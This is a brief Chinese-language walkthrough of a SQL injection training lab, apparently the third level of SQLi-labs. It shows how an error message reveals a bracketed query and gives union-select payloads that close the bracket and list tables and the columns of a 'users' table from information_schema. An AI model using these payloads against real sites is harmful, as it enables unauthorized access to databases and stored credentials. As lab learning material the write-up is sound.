

# 第三关
# series-3

测试是什么类型的注入
?id=1'

回显报错
但是看到有一个反括号说语法错误，可以连想到它的语句是这样的
select * from user where id=('1');
这时候可以使用反括号将前面的括号闭合来进行注入

这时候可以使用联合查询来进行注入了

?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+

?id=-1') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

